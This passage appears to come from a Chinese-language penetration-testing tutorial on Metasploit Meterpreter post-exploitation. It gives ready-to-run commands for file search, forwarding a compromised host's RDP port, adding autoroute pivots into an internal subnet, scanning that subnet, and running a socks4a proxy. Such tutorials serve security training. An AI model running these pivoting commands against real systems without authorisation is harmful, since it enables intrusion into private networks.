 ![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaibsp2qFib4RQdHdpjZAXQ2icUU3ThiafmeqvKia5MTfntAbk2ibEOjCbiciaBfQ/640?wx_fmt=png)

```
search -f *dayu*.exe    #全局搜索dayu.exe这个文件
```

搜索速度还是很快的！

3、网络命令  

1) 基本命令

基础命令，自行演示：

```
ipconfig/ifconfig  #查看网卡信息
netstat –ano  #查看端口进程
arp      #查看ARP信息
getproxy   #查看代理信息
route   #查看路由
```

2) 端口转发

演示：  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibR0fMxRxYLtfD5UjFQOV7dSa4j18FuzDmPC5QLSYxXEooCeQljW7NkQ/640?wx_fmt=png)

```
portfwd add -l 6666 -p 3389 -r 127.0.0.1   #将目标机的3389端口转发到本地6666端口
rdesktop 127.0.0.1:6666    #kali远程桌面使用6666端口
```

3) 添加路由  

演示：  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaib0xxbv0pPj7WeQStnpQlj9C8NUyibt9h27icwMjh1md4qah0kxwia2j4nw/640?wx_fmt=png)

```
run autoroute -s 10.10.10.0/24  #添加到目标环境网络
run autoroute –p   #查看添加的路由
```

内网穿透必备！

```
run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24  #扫描整个段存活主机
run auxiliary/scanner/portscan/tcp RHOSTS=10.10.10.2 PORTS=3389  #检查IP是否开放3389
```

4) Socks4a 代理

配置 socks4a 模块：

```
msf> use auxiliary/server/socks4a 
msf > set srvhost 127.0.0.1
msf > set srvport 1080
msf > run
```
